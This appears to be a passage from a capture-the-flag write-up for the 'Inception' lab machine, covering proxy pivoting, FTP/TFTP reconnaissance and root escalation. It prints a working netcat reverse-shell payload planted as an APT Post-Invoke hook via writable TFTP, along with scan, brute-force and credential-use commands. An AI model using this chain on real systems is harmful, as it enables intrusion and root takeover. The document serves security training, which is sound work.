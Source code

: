 #### 5.1. Proxychains config

##### 5.1.1. Proxychains config for internal SSH access
```
# cat >> chain_remote << EOF
strict_chain
quiet_mode
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
http 10.10.10.67 3128
EOF
# proxychains4 -f /root/chain_remote sshpass -p VwPddNh7xMZyDQoByQL4 ssh -o StrictHostKeyChecking=no -f -D 9050 cobb@127.0.0.1 "sleep infinity"
# netstat -tlnpe | grep 9050
tcp        0      0 127.0.0.1:9050          0.0.0.0:*               LISTEN      0          36327      2668/ssh
tcp6       0      0 ::1:9050                :::*                    LISTEN      0          36326      2668/ssh
```


##### 5.1.2. Proxychains config to TCP through SSH tunnel
```
# cat >> chain_local << EOF
strict_chain
quiet_mode
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 9050
EOF
```


#### 5.2. Network access from Kali to internal network 

##### 5.2.1. Nmap scan of `192.168.0.1` (lateral)
```
# proxychains4 -f /root/chain_local nmap -Pn -n --top-ports=100 192.168.0.1 -sT -sC -sV -T5
# proxychains4 -f /root/chain_local nmap -Pn -n -p21 192.168.0.1 -sT --script=ftp-brute
```


##### 5.2.2. FTP access
```
# proxychains4 -f /root/chain_local ftp -p 192.168.0.1 21 # ftp:ftp / Anonymous:Anonymous
# proxychains4 -f /root/chain_local lftp -e "ls -la /;q" 192.168.0.1 2>/dev/null
```


##### 5.2.3. SSH shell access
```
# proxychains4 -f /root/chain_local sshpass -p VwPddNh7xMZyDQoByQL4 ssh -o StrictHostKeyChecking=no cobb@127.0.0.1
```


#### 5.3. Machine-level reconnaissance

##### 5.3.1. Bash history
```
root@Inception:/var/tmp# grep '192.168.0.1' /home/cobb/.bash_history
ftp 192.168.0.10
ftp 192.168.0.1
nc -zv 192.168.0.1 1-100
nc -zv 192.168.0.1 1-100 | grep -v "refused"
nc -zv 192.168.0.1 1-100 | grep succeeded
nc -zv 192.168.0.1 1-100 | grep succeeded!
nc -zv 192.168.0.1 1-100 | grep "succeeded!"
nc -zv 192.168.0.1 1-100 > ports $$ cat ports | grep -v "refuse"
nc -zv 192.168.0.1 1-100 > ports $$ cat ports | grep -v "refused"
nc -zv 192.168.0.1 1-100 > ports $$ cat ports | grep succeeded
nc -zv 192.168.0.1 1-1024 2>&1 | grep -v "refused"
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
nc -zvu 192.168.0.1 1-100 2>&1 | grep -v "refused"
ftp 192.168.0.1
tftp 192.168.0.1
tftp 192.168.0.1
ftp 192.168.0.1
```


##### 5.3.2. FTP info gathering
```
# proxychains4 -f /root/chain_local lftp -e "cat /etc/vsftpd.conf;q" 192.168.0.1 2>/dev/null | grep -v '#'
listen=NO
listen_ipv6=YES
anonymous_enable=YES
anon_root=/
local_enable=YES
dirmessage_enable=YES
use_localtime=YES
xferlog_enable=YES
connect_from_port_20=YES
secure_chroot_dir=/var/run/vsftpd/empty
pam_service_name=vsftpd
rsa_cert_file=/etc/ssl/certs/ssl-cert-snakeoil.pem
rsa_private_key_file=/etc/ssl/private/ssl-cert-snakeoil.key
ssl_enable=NO

5863 bytes transferred
```


##### 5.3.3. `tftpd-hpa` config
```
# proxychains4 -f /root/chain_local lftp -e "cat /etc/default/tftpd-hpa;q" 192.168.0.1 2>/dev/null | grep -v '#'

TFTP_USERNAME="root"
TFTP_DIRECTORY="/"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="--secure --create"
118 bytes transferred in 1 second (104 B/s)
```


##### 5.3.4. Access to `root.txt` file
```
tftp> get /root/root.txt
getting from 192.168.0.1:/root/root.txt to root.txt [netascii]
Error code 2: File must have global read permissions
```


#### 5.4. Abusing the TFTP server and APT update via cronjob

##### 5.4.1. Cronjob for `apt update` executes every 5 minutes
```
# proxychains4 -f /root/chain_local lftp -e "cat /etc/crontab;q" 192.168.0.1 2>/dev/null
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
826 bytes transferred in 2 seconds (334 B/s)
```


##### 5.4.2. Preparing `Post-Invoke` payload (OpenBSD netcat reverse shell)
```
cobb@Inception:/dev/shm/.hax$ cat >> 00hell << EOF
APT::Update::Post-Invoke{"rm /tmp/f 2>/dev/null;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.10 9999 >/tmp/f";};
EOF
cobb@Inception:/dev/shm/.hax$ tftp 192.168.0.1
> put 00hell /etc/apt/apt.conf.d/00hell
Sent 67 bytes in 0.0 seconds
tftp> q
```
When the `apt update` will run as root, we would get a shell.


##### 5.4.3. Checking if payload was uploaded
```
# proxychains4 -f /root/chain_local lftp -e "ls -la /etc/apt/apt.conf.d;q" 192.168.0.1 2>/dev/null | grep hell
-rw-rw-rw-    1 0        0              66 Apr 09 20:23 00hell
```


##### 5.4.4. Root shell comes after 5 min.
```
cobb@Inception:/dev/shm/.hax$ nc -nlvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [192.168.0.1] port 9999 [tcp/*] accepted (family 2, sport 40738)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
8d1e2e91de427a6fc1a9dc309d563359
# reboot
```
